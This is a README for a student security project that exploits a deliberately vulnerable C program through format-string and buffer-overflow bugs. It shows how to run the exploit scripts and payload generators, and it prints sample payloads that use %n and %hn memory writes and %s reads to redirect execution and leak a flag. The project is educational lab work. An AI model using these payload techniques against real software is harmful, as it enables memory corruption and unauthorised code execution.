# BIT semestral project

## DISCLAIMER

This repository is for educational and informational purposes **only**!

## Contents
```
\_ exploit.py              # overwrite return address
\_ exploit-flag.py         # leak flag
\_ exploit-overflow.py     # exploit 
\_ format_string.c
\_ images/
\_ Makefile
\_ utilities/
    \_ payload_offset.py
    \_ payload_read.py
    \_ payload_write.py
    \_ payload_write_short.py 
```

## Requirements

GCC, Make

Tested with Python **3.10**, **3.11** \
Python libraries: **pwntools**

## Usage

[?] - usage\
[C] - command\
[>] - output

Clone repository:\
`https://github.com/Sofurs/bit-semestral-project.git`\
`cd bit-semestral-project`

Compile vulnerable program:\
`make`

Run exploits:
```
[C] ./exploit.py
[>] ������ffdb1d2c3e8
[>] Thisisfromanunreachablefunction!
```

```
[C] ./exploit-flag.py
[>] �WV
[>] SecretFlagForBIT
```

```
[C] ./exploit-overflow.py
[>] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis is from an unreachable function!
```

Utility Functions:

```
[?] Usage: ./utilities/payload_offset.py {number of %x}
[C] ./utilities/payload_offset.py 5
[>] AAAABBBB %x %x %x %x %x %x 
```

```
[?] Usage: ./utilities/payload_read.py {memory address} {format character} {offset}
[?] Address format: 0xXXXXXXXX
[?] Format character: %s/%c/%x/%d/...
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_read.py 0x41424344 %s 6
[>] DCBA%7$s
```

```
[?] Uage: ./utilities/payload_write.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write.py 0x41424344 0x8040a020 6
[>] DCBAPADDECBAPADDFCBAPADDGCBA%08x%08x%08x%08x%08x%220x%n%128x%n%160x%n%64x%n
```

```
[?] Usage: ./utilities/payload_write_short.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write_short.py 0x41424344 0x8040a020 6
[>] DCBAFCBA%40984x%7$hn%57376x%8$hn
```

## Format String

![Format string basics](images/format-string.png)

![Stack frame and format string read/write](images/format-string-rw.png)

![Format string read/write howto](images/format-string-detail-rw.png)
